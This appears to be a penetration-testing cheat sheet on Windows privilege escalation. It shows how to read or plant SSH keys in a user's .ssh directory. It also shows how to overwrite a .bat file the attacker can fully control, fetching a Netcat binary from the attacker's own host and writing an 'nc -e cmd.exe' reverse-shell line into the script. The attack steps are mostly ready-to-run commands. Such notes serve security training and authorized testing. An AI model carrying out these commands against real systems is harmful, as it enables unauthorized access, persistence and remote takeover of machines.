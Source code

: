 # Windows Privilege Escalation

Here are some techniques for achieving privilege escalation on _Windows_ systems:

## <mark style="color:orange;">Abusing SSH keys</mark>

* Check if we have reading permissions on the SSH private keys of a user

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On the target machine
type C:\Users\$user\.ssh\$keyfile    #For a user
```
{% endcode %}

{% hint style="info" %}
Standard key files are called _id\_rsa_
{% endhint %}

***

* Copy the keys to a file, assign permissions to the file, and use it to log in using the key

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>#On our machine
</strong><strong>nano $filename #Copy here the keys
</strong><strong>chmod 600 $filename
</strong>ssh $username@$IP -i $filename
</code></pre>

{% hint style="info" %}
Use `chmod 600 id_rsa` to assign restrictive permissions, and SSH does not block this method
{% endhint %}

***

* When having writing permissions on the `.ssh/` directory of a user, we can generate an SSH key with the current user and pass it to the system

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh-keygen -f $keyfile
```
{% endcode %}

{% hint style="info" %}
This will generate the file with a private key for the user and a `.pub` file with a public key
{% endhint %}

***

* Pass the public key to the authorized keys file of the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
type $keyfilename.pub > C:\Users\$user\.ssh\authorized_keys
```
{% endcode %}

***

* Use this to log in as the user using the key

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>ssh $username@$IP -i $keyfile 
</strong></code></pre>

## <mark style="color:orange;">Abusing .bat files with full control permissions</mark>

In the situation where a _.bat_ file (script file for Windows) is being executed on the system and it has full-control permissions, it's possible to abuse this to modify the content of the _.bat_ file and execute commands with privileges arbitrarily

* Try spawning a PowerShell from the _CMD_ with any user we have access to

{% code overflow="wrap" lineNumbers="true" %}
```powershell
...> powershell
PS ...>            #If it worked, the command line will look like this
```
{% endcode %}

***

* Find a _.bat_ file, and check if it has full-control permissions. In case it has, check if it is calling any process and if any of them is still running

<pre class="language-powershell" data-overflow="wrap" data-line-numbers><code class="lang-powershell"><strong>icacls $batFile #Check permissions
</strong><strong>cat $batFile    #Check the content to know if it is calling any process
</strong><strong>ps              #Check if called processes are still running
</strong></code></pre>

***

* Download and import a _Netcat_ executable for _Windows_

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe #Get NC executable
python3 -m http.server $myPort #In the folder where we have the executable

# In the target machine
wget http://$myIP:$myPort/nc64.exe -outfile nc64.exe
```
{% endcode %}

***

* Set _Netcat_ listener to catch the connection and replace the content of the _.bat_ file with a command spawning the _Netcat_ executable

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
nc -nvlp $ncPort

# In the target machine
echo $ncFilePath -e cmd.exe $myIP $ncPort > $batFilePath
```
{% endcode %}

{% hint style="info" %}
Then we just had to wait for the system to run the script again, now executing our payload
{% endhint %}
